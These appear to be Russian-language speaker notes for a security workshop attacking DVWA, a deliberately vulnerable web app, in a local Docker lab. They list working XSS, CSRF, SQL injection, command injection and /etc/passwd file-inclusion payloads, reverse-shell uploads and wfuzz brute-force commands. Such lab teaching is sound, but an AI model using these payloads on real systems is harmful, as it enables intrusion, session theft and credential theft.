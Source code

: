 Приветствие
Алексей
Работаю
Занимаюсь безопасностью контейнерных перевозок
Веду канал Ever Secure, подписывайтесь, много чего интересного
Один из ведущих подкаста SafeCode Live
Член программного комитета DevOops Conf и SafeCode conf


о чем поговориv сегодня?
Почему это важно и зачем это нужно?

Tools
https://owasp.org/www-project-top-ten/

# запускаем
docker run --name dvwa --rm -it -p 80:80 vulnerables/web-dvwa
localhost:80
admin changeme
# создаем базу
admin password

## JS
### JS low
cyber chef
rot 13 -> md5
Вопросы?

## XSS
### XSS low
<script>alert(1)</script>
<script>alert(document.cookie)</script>

### XSS med
<ScRiPt>alert(document.cookie)</ScRiPt>

### XSS high
<img src=123.png onerror="alert(document.cookie)">

## XSS Stored
### XSS Stored low
<script>alert(1)</script>

### XSS Stored med
in name + field value
<ScRiPt>alert(document.cookie)</ScRiPt>

### XSS Stored high
in name + field value
<img src=123.png onerror="alert(document.cookie)">

## DOM XSS #показа
### DOM XSS low
http://localhost/vulnerabilities/xss_d/?default=<script>alert(document.cookie);</script>

### DOM XSS med
></option></select><img src=x onerror="alert(document.cookie)">

### DOM XSS high
#<script>alert(document.cookie);</script>

## CSRF
### CSRF low
http://localhost/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change#

### CSRF med
wia XSS stored low into img src=
http://localhost/vulnerabilities/csrf/?password_new=12345&password_conf=12345&Change=Change

### CSRF high
http://localhost/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change&user_token=5fd825be4f58dc95c8e0464383092e5e#

!!!! ПЕРЕРЫВ !!!!

## SQLi
### SQLi low
1' or 1=1#
' UNION SELECT user, password FROM users#
### SQLi med
value
1 or 1=1
### SQLi high
' UNION SELECT user, password FROM users#

## Blind SQLi
### Blind SQLi low
1' and sleep(5)#



## Comand Injection
### Comand Injection low
;ls
;whoami
;cd /
### Command injection med
|ls
### Command injection high
|ls

## File Inclusion
### File Inclusion low
/etc/passwd
### File Inclusion med
/etc/passwd
### File Inclusion high
=file:/../../../../etc/passwd
file:////etc/passwd

### SSRF low
docker exec dvwa sed -i 's/allow_url_include = Off/allow_url_include = On/g' /etc/php/7.0/apache2/php.ini
docker exec dvwa /etc/init.d/apache2 reload
=http://192.168.1.1

## File upload (Insecure Deserealisation)
### File upload low
upload reverse shell
192.168.1.3/hackable/uploads/rev.php

### File upload med
Change content type
Content-Type: image/jpeg
192.168.1.3/hackable/uploads/rev2.php

## Brute Force
### Bruteforce low
Burp

cd ~/Documents/rebrain
docker run -v $(pwd):/wordlist/ -it ghcr.io/xmendez/wfuzz wfuzz --hs "incorrect" -c -z file,users.txt -z file,top1k.txt -b 'PHPSESSID=a69jg832lb836778vtcpgsuig0; security=low' 'http://192.168.1.3/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login'
### Bruteforce low
docker run -v $(pwd):/wordlist/ -it ghcr.io/xmendez/wfuzz wfuzz -c -z file,users.txt -z file,top1k.txt -b 'PHPSESSID=daietf6d2h5jv8ol6mvvjafak7; security=medium' 'http://192.168.1.3/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login'

docker run -v $(pwd):/wordlist/ -it ghcr.io/xmendez/wfuzz wfuzz -c -z file,users.txt -z file,top1k.txt -b 'PHPSESSID=daietf6d2h5jv8ol6mvvjafak7; security=low' 'http://192.168.1.3/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login'
### Bruteforce high
intruder -> type Pitchfork -> add fields -> payload 1 -> settings -> allow redirect -> grep extract -> payload 2



## Used tools
Docker engine - https://docs.docker.com/engine/install/
DVWA - https://github.com/digininja/DVWA
DVWA image - https://hub.docker.com/r/vulnerables/web-dvwa
Burp Suite CE - https://portswigger.net/burp/communitydownload
top 1k common passwords - https://github.com/danielmiessler/SecLists/blob/master/Passwords/darkweb2017-top1000.txt
wfuzz - https://github.com/xmendez/wfuzz
OWASP top 10 - https://owasp.org/www-project-top-ten/

## links
common passwords - https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials
https://owasp.org
https://portswigger.net/web-security
